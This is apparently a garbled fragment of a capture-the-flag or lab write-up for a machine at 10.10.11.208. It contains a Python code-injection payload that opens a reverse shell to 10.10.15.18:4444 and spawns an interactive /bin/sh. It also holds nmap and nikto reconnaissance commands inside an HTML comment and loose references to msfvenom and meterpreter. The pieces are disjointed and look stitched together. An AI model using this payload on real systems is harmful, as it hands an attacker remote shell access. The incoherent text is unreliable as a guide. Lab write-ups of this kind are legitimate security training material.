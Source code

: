 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules


msfvenom
meterpreter
